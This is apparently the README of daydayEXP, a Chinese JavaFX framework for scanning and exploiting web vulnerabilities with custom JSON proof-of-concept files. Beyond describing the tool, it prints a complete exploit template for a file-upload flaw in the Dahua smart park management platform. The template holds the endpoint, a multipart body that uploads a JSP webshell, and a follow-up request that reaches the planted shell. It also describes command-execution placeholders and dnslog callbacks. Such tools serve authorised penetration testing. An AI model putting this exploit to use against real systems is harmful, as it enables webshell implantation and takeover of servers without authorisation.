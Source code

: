  <h1 align="center">daydayEXP</h1>
	
## 项目简介：
受nuclei的设计思路影响，基于java fx写的一款支持加载自定义poc文件的、可扩展的的图形化渗透测试框架。项目反响还不错的话还会考虑继续更新....

## v0.2更新记录：
更新：

1.新增漏洞管理菜单，支持了POC编辑器，通过输入必要的参数信息自动生成poc文件（不需要自己手动一个个编辑json文件了!）

2.新增一键更新poc模块，一键同步配置文件、仓库POC信息。
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/78c01149-c8ca-4bac-a1df-9a24d6885be6)


  
### 使用：

执行命令或用bat批处理脚本打开（直接打开会有中文乱码等问题，并确保poc文件在当前目录下）

食用建议：建议开启代理配合burp食用

```
java -jar -Dfile.encoding=UTF-8 dadayExp-0.1-jar-with-dependencies.jar   (jdk8)

因为jdk11以后就不自带javafx依赖了,所以运行需要指定javafx路径
java --module-path {javafx lib path} --add-modules ALL-MODULE-PATH -jar dadayExp-0.1-jar-with-dependencies.jar
```

#### 漏洞检测模块

选择一级列表内容可对所有该标签下的漏洞都进行检测，为多进程，默认线程为5。选择二级则对单个漏洞扫描。（因为多线程用的是继承Callable类，可能界面效果会不太好...）

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/642384f2-344e-408c-afa6-b5b2c846c55e)


dnslog：在config.json中配置好dnslog api，面板中设置好dns地址即可食用。应用该功能可减少命令执行无回显或POC返回包特征值不明确导致的误报、漏报。（暂只支持ceye api）

下方例子中就可以看出，是否开启该模块会导致检测结果会有较大出入
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/7e9db965-da7b-4251-865c-987ace0e3114)
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/87ae9304-5f4f-4c00-b4fa-e66f2df6bab4)




#### 漏洞利用模块
点击漏洞利用按钮，会根据当前漏洞的type类型动态生成场景

`(命令执行类)`

例如命令执行、代码执行、SQL注入xpcmdshell等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/99e2be93-71de-4e01-958a-e010385feb6a)




`(文件上传类)`

例如文件上传、任意文件写入、任意文件覆盖等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/367b45dd-cbb8-458e-8054-bf3cf6632d5a)




`(反序列化类)`

开发中~~~~也没有想到较好的设计思路...
可以暂时用反序列化打内存马的poc直接当作文件上传类使用。



### POC编写

json文件中除了基本的name、tag等还有poc和exp两个模块(目前exp模块只支持type为upload或exec，如遇到其他类型漏洞，如：反序列化、未授权、sql注入等建议只设置好poc字段进行一个初步漏洞检测，后续手工进行利用)

对照其他poc的json文件，应该就能看懂编写规则。

如果需要新增一个漏洞标签，请在conf.json配置文件中新增，并在项目中"一键更新Poc"

```
name  :   漏洞名称
tag   ：  漏洞标签（如:fanwei、youyong等，需要正确填写，否则会影响到POC文件正确加载）
type  ：  漏洞类型（如:upload、exec、sql等，需要正确填写，否则影响EXP模块正常使用）
poc   :   漏洞检测
	pocGet:url路径
	pocPost:post数据(需要换行的情况建议用\r\n代替\n)
	header:
	Pattern：匹配返回包存在的特征值，通过匹配该字段确定漏洞是否存在
exp   ：
	step（n）：漏洞利用过程中的请求包先后顺序（step1代表请求的第一个数据包，step2、step3以此类推）
		expGet:url路径
		expPost:post数据
		header:
		Pattern：匹配返回包的内容（正则），当type类型为exec时，用来匹配返回包中的命令执行结果，upload类型则是一般用来匹配文件上传后随机生成的文件名。
```

例如:

```
{
  "name":"大华智慧园区管理平台文件上传",          //漏洞名称
  "tag":"dahua",							//漏洞标签（需要正确填写，否则影响POC文件正确加载）	
  "type":"upload",							//漏洞类型（需要正确填写，否则影响EXP模块正常使用）
  "poc": {									//根据模板编写，header头可自行添加修改
    "pocGet": "/publishing/publishing/material/file/video",			
    "pocPost": "id=1",												
    "header": {
      "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
      "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
      "User-Agent": "Mozilla/5.0 (Linux;"
    },
    "Pattern": "(上传文件为空，请重新上传)"		//存在漏洞时返回包存在的关键字（正则表达式必须用（）包含）
  },
  "exp": {									//按step1、step2...先后顺序发包
    "step1": {
      "expGet": "/publishing/publishing/material/file/video",
      "expPost": "------WebKitFormBoundaryCJEleSRxsqS0lAFv\r\nContent-Disposition: form-data; name=\"Filedata\";filename=\"24k.jsp\"\r\n\r\n{webshell}\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "([0-9]*\\.jsp)"			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称，如无需匹配返回包则用（）。注意：正则表达式必须用（）包含。
    },
    "step2": {
      "expGet": "/publishingImg/VIDEO/{shellPath}",			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "()"
    }
  }
}
```

占位符：

```
{仅poc内可用}
{dnslog}:配置好dnslog平台api即可食用。一般应用于命令执行无回显的情况，减少误报率。

{仅exp内可用}
{command}:命令执行
{shellPath}:匹配到返回包中的脚本名称，应用于上传后wenshell文件名随机生成且在返回包中有回显的场景。
{webshell}:需要上传的文件上传内容

{poc、exp内均可使用}
{random}:随机生成4位数字字母，应用于poc中需要不同特征字符的特殊场景
{url}:即当前目标的url地址，应用在一些网站中可能会校验refer头的情况

编码：
Base64Encode:对输入进行base64编码
Base64decode:对输入进行base64解码码
UrlEncode:url编码（全编码）
UrlDecode：url解码
HtmlEncode:HTML编码
HtmlDecode:HTML解码


如：{webshell:Base64Encode:n}，{command:UrlEncode:3}其中n表示编码次数。（如泛微browser注入漏洞可能会用到{command:UrlEncode:3}，其他一般情况编码一次即可）
```

